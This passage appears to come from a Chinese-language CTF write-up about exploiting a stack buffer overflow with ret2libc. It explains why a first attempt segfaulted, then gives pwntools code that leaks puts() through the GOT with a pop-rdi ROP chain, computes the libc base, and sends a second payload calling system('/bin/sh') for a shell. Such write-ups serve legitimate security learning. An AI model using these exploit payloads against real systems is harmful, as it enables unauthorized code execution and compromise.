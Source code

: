 看起来很好，但是失败了——最后程序没有像设想的打开 shell，而是报段错误退出。为什么呢？ Debug 后发现，我们在第一次输入时为了让 `main()` 返回到它自身，肯定要把原来 `main()` 的返回地址覆盖掉，所以我们用 `puts()` 函数输出的，其实是 `main()` 的地址，而不是`__libc_start_call_main + 122` ，这个思路错了。

既然不能泄漏 `main()` 原来的返回地址，那就泄漏 `main()` 调用过的函数。看了一堆作题笔记后，发现 `puts()`  比较好弄：

我们第一次输入前，先求 `puts()` 的 plt 与 got 地址（因为 glibc 的延迟绑定机制），然后通过第一次输入把栈覆写成这个形式：

| `pop_rdi_ret_addr` | `puts_got` | `puts_plt` | `main_addr` |
| ------------------ | ---------- | ---------- | ----------- |

这样，我们在第一次输出后，`main()` 函数 return （执行第一个 `ret` 时 `rbp` 指向 `pop_rdi_ret_addr` ）到 `pop rdi; ret;` 的 gadget， 就可以将 `puts()` 的实际地址（在 GOT 表内，所以是 `puts_got` ）作为参数传给 rdi ，然后再次 return （执行第二个 `ret` 时 `rbp` 指向 `puts_plt` ）到 `puts()` 函数从而输出它自己的实际地址，然后再 return 到 `main()` 函数。我们就可以用 `puts()` 函数的地址求 libc 的地址了。

代码如下：

```python
# Step one Leaking puts() address & return to main() again
main_addr = 0x00000000004011CA
ret_addr = 0x000000000040101a
rdi_ret_addr = 0x00000000004011c5   
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
puts_offsets = libc.symbols['puts']
offset = 0x100 + 0x8
payload1 = b'A'*offset + p64(rdi_ret_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
# pause()
conn.send(payload1)
# conn.interactive();
conn.recvline() #first puts()
received1 = conn.recvline() #second puts() outputs its addr
received1 = received1.strip(b'\n')
received1 = received1.ljust(8, b'\0')
puts_addr = u64(received1)
libc_addr = puts_addr - puts_offsets
log.info("puts_addr => "+ hex(puts_addr))
log.info("libc_addr => 0x{:016X}".format(libc_addr)) 
```

效果如下：

![image-20240727205306318.png](https://s2.loli.net/2024/07/29/N7zCeuRF8pivmtY.png)

可以看到获取的 libc 地址为 `0x00007F6506C9D000`

### Getting system shell

最后，按如下构造 payload ，可以获取 shell：

```python
# Step two Getting system shell
system_addr = libc.symbols['system'] + libc_addr #system函数的地址
bin_sh_addr = next(libc.search('/bin/sh')) + libc_addr #‘/bin/sh’的地址
log.info("bin_sh_addr => {:016X}".format(bin_sh_addr)) 
log.info("system_addr => {:016X}".format(system_addr)) 
payload2 = b'A'*offset + p64(ret_addr) + p64(rdi_ret_addr) + p64(bin_sh_addr) + p64(system_addr)
# pause()
conn.send(payload2)
conn.interactive()
```
